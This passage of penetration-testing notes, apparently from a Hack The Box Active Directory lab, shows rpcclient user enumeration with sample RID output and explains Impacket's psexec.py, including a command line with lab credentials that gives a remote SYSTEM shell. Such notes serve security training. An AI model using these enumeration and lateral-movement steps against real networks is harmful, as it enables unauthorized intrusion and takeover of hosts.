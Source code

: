 If we wished to enumerate all users to gather the RIDs for more than just one, we would use the `enumdomusers` command.

```
rpcclient $> enumdomusers

user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
```

### Impacket Toolkit

**Psexec.py**

The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

```
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
